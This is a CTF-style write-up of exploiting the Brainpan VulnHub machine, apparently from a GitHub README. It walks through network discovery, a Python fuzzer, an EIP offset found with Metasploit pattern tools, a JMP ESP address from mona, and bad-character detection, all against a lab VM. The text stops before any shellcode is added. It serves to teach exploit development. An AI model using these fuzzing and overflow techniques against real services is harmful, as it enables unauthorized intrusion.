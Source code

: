 # BrainPan BufferOverflow VulnHub Machine 
Hello! I am [Mohamed](https://twitter.com/0xMohomiester) This is My WriteUp for Brainpan BufferOverflow VulnHub Machine ok Let's start with download machine from [VulnHub Brainpan](https://www.vulnhub.com/entry/brainpan-1,51/) and setup it on vmware or virtual box as you like I already finished the setup you shoud see :

![brainp](https://user-images.githubusercontent.com/47929033/130876624-1b4dc000-bcb9-467c-87db-30b5ec3af179.png)

That's great Let's start with enumeration I need to know ip address of machine so i will use command 
`sudo netdiscover` to find ip address: 

![Screen Shot 2021-08-26 at 12 44 34 AM](https://user-images.githubusercontent.com/47929033/130876911-b5242212-661d-4646-989c-c8772a9b85d2.png)

as you can see the ip address: `192.168.1.13` with `vmware,inc` hostname now we need to perform port scanning I will use nmap to scan for open port and service on machinewith command:

`sudo nmap 192.168.1.13` : 

![Screen Shot 2021-08-26 at 12 48 27 AM](https://user-images.githubusercontent.com/47929033/130877152-5af6c1f5-28b4-4bc2-bc16-dc239560a2c5.png) 

as you can see two ports are open `9999,10000` let's check port `9999` with netcat using command 
`nc -nvv 192.168.1.13 9999`:

![Screen Shot 2021-08-26 at 12 49 00 AM](https://user-images.githubusercontent.com/47929033/130877337-dbaddc9d-fb3c-4a03-add2-ed49cbea2e7e.png)

as you can see this is the vulnerable service: `Brainpan`,maybe port `10000` is web server let's check it with open it in web browser: 

![Screen Shot 2021-08-26 at 12 49 20 AM](https://user-images.githubusercontent.com/47929033/130877350-d1d98332-3831-4c9b-a820-031966af52d9.png) 

That's Great, It's web server that run on port `10000` now we need to discover some interesting directories that hidden in webiste by using Gobuster using command: 
`gobuster dir  --url http://192.168.1.13:10000/  -w /home/kali/Desktop/directory-list-2.3-medium.txt`

![Screen Shot 2021-08-26 at 12 40 56 AM](https://user-images.githubusercontent.com/47929033/130877722-9c037be4-a6f8-4f5d-8e69-5cd6e10d891e.png)

as you can see i found directory `/bin` let me see in browser: 

![Screen Shot 2021-08-26 at 12 40 35 AM](https://user-images.githubusercontent.com/47929033/130877992-ccdee6c7-91a5-4197-8106-e54b5839a92c.png)

oh! it's e executable file now we need to switch to windows machine on vmware to run programe
i will tranfer the programe to windows machine and run it: 

![Screen Shot 2021-08-26 at 1 43 00 AM](https://user-images.githubusercontent.com/47929033/130878391-e18acbce-e348-4f65-b4a3-cbdb54794f49.png)

as you can see the programe listen on port 9999 and waitin for connection, we need [Immunity Debugger](https://debugger.immunityinc.com/) to open application and see how it works During exploition phase
I already download it , I will open and run it as administrator to attach service: 

![Screen Shot 2021-08-26 at 1 49 10 AM](https://user-images.githubusercontent.com/47929033/130878958-189b07db-6e2d-41bd-a594-fe77294799a0.png) 

as you can see service name: `Brainpan` with PID `2108` after attack it run programe from `F9` in your keyboard and make sure that the programe is running in the right down side: 

![Screen Shot 2021-08-26 at 1 49 38 AM](https://user-images.githubusercontent.com/47929033/130879173-18bcdd76-6286-44f6-836a-95ea16152d9a.png)

as you can see programe runing we need now to Discover bufferoverflow vulnerability using fuzzing in my Kali Linux attacking machine I written simple fuzzer using python: 

```
#!/usr/bin/python

import socket 

counter = 100

ip = "192.168.1.15"

port = 9999

while (counter<=5012):
      
     print("payload sent")

     s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
     payload = 'A' * counter
   
     s.connect((ip, port))

     s.send(payload + "\r\n")
     
     s.recv(1024)
     
     s.close()
     
     counter+=100
    
     print(payload + "\n")

print(len(payload))
```

That's Great Let's run our fuzzer to Discover crash on application: 

![Screen Shot 2021-08-26 at 2 06 17 AM](https://user-images.githubusercontent.com/47929033/130880235-d06b1266-0fa1-40c3-8cfa-4f5e77a413b9.png) 

as you can see fuzzer stoped with string of `AAA` how to know number of `A` ? it's very simple let me to create a file with `touch aa.txt` and copy string to file and use command: `cat aa.txt | wc -c`:

![Screen Shot 2021-08-26 at 2 07 45 AM](https://user-images.githubusercontent.com/47929033/130880433-95cb1c84-9dcc-4192-b79b-173a7490b81c.png)

as you can see tha programe crased and EIP register: `41414141`

![Screen Shot 2021-08-26 at 2 06 32 AM](https://user-images.githubusercontent.com/47929033/130881445-09e4193f-8c01-4a6e-8116-6cbcea6d23fc.png)

The string that crased applicaton: `600` of `A`, That's Great now we can write a exploit to know which four bytes that OverWrtie `EIP`: 

### Hint : CTR+F2 to restart debugger and service  and F9 to run debugger and service 

exploit:

```
#!/usr/bin/python 
import socket 

buffer = 'A' * 600 

print 'payload sent'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 

s.connect(('192.168.1.15',9999))

s.send(buffer + "\r\n")

s.recv(1024)

s.close()

```
I will run exploit to see the programe crash or not : 

![Screen Shot 2021-08-26 at 2 26 21 AM](https://user-images.githubusercontent.com/47929033/130881239-d8dcb070-d15a-480c-adfb-fd28dacba624.png)

as you can see the programe crashed Now, let's create a unique string with `msf-pattern-create`, using command: `msf-pattern_create -l 600` and copy the unique string to exploit :

![Screen Shot 2021-08-26 at 2 35 02 AM](https://user-images.githubusercontent.com/47929033/130881775-6f0d9492-07ad-4060-b0af-083e2ef4c33b.png)

as you can see the programe crashed at EIP: `35724134` we can now use `msf-pattern-offset`
to know which four bytes that OverWrite `EIP` by using command `msf-pattern_offset -q 35724134`:

```
[*] Exact match at offset 524
```
Now we need to OverWrite EIP with `BBBB` i will send `524 * A` + `BBBB` + `72 * C` 
then Total Length: 600 then exploit should be: 

![Screen Shot 2021-08-26 at 2 50 19 AM](https://user-images.githubusercontent.com/47929033/130882763-af86b608-bbc4-4d07-9a6d-8f33c9a74b48.png)

let's run exploit to see the crash:

![Screen Shot 2021-08-26 at 12 59 09 PM](https://user-images.githubusercontent.com/47929033/130951288-663f42f7-c034-4222-9885-2b42cf3f1524.png)

as you can see we can control EIP register with `BBBB` that's Great, now we need to find `JMP ESP` register to execute our shellcode in the application to get shell we can use [mona.py](https://github.com/corelan/mona) to do this operation, first I will use command: `!mona modules` to find mosules  that don't have ASLR and DES: 

![Screen Shot 2021-08-26 at 1 06 26 PM](https://user-images.githubusercontent.com/47929033/130952539-25118c43-c5f0-4010-99d0-fd3a529296aa.png)

as you can see this is module, we will use module with have all false `brainpan.exe` but we need to use `msf-nasm-shell` to know the code of `JMP ESP register` we can use command: `msf-nasm-shell`
then type `JMP ESP`, Just Like the image Below: 

![Screen Shot 2021-08-26 at 1 15 29 PM](https://user-images.githubusercontent.com/47929033/130953400-3f30e6ab-5c8e-4167-a8ea-b6d82994bddb.png)

Now we can use mona command: `!mona find -s '\xff\xe4' -m barinpan.exe` : 

![Screen Shot 2021-08-26 at 1 19 40 PM](https://user-images.githubusercontent.com/47929033/130954379-c392d007-48f1-4fdf-b398-84ee0183f380.png)

as you can see the address is `0x311712f3` that's Great we need Now to Discover Badchar that cutting shellcode and can break code execution let's learn how to know `Badchar`, you can create a string of most common badchar with followin python code:

```
import sys
for x in range(0,256):
    sys.stdout.write("\\x" + '{:02x}'.format(x))
```
![Screen Shot 2021-08-26 at 1 54 23 PM](https://user-images.githubusercontent.com/47929033/130958481-3cf9d696-e6c7-4286-968a-abe0a2ea719d.png)

as you can see this is badchar string let's copy it to exploit and send it: 

![Screen Shot 2021-08-26 at 1 55 00 PM](https://user-images.githubusercontent.com/47929033/130958516-e041043b-8131-4c05-ac17-95661423f976.png)

let's run our exploit to see how to know badchar from stack: 

![Screen Shot 2021-08-26 at 1 57 51 PM](https://user-images.githubusercontent.com/47929033/130958838-d17cc991-c88a-4031-902a-754db2742c1d.png)

as you can see programe crashed then go to ESP `Stack Pointer` to see our payload in stack and right click > `follow in dump`: 

![Screen Shot 2021-08-26 at 2 01 35 PM](https://user-images.githubusercontent.com/47929033/130960475-f43bfb48-2eca-42da-b4bd-fdd93a1d542a.png)

as you can see after last `C` the `\x00` truncated the string, if I removed `\x00` from exploit - resutlt:

![Screen Shot 2021-08-26 at 2 09 25 PM](https://user-images.githubusercontent.com/47929033/130960229-6324294c-e7ef-4ed1-9035-1cf3fbb5d8f1.png)

as you can see the string are in the stack without any truncated
